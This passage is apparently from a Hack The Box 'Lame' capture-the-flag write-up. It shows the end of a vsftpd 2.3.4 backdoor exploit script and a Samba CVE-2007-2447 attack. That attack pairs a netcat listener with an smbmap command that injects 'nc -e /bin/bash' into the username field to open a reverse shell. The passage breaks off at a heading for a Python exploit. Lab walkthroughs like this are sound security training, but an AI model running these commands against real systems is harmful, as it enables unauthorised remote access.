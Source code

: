 	    except Exception:
	        print('[!] Failed to connect to backdoor on %s:6200' % ip)


	if __name__ == '__main__':

	    if len(sys.argv) < 4:
	        print('Usage: ./vsftpd_234_exploit.py <IP address> <port> <command>')
	        print('Example: ./vsftpd_234_exploit.py 192.168.1.10 21 whoami')

	    else:
	        exploit(sys.argv[1], int(sys.argv[2]), sys.argv[3])
	```

Because port 6200 is not open, then we don't have a backdoor here.

## CVE-2007-2447

### <a href='https://wiki.jacobshodd.com/writeups/hack-the-box/lame#exploitation' target="blank">Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution</a>

=== "Execute payload file to get root"

	Create a listener in Kali machine.

	``` bash
	sudo nc -nvlp 4444
	```

	Get reverse shell

	```bash
	smbmap -u '/=`nc -e /bin/bash 10.10.14.4 4444`' -H 10.10.10.3
	```

	![5](img/5.png)

=== "samba_rce_CVE-2007-2447.py"

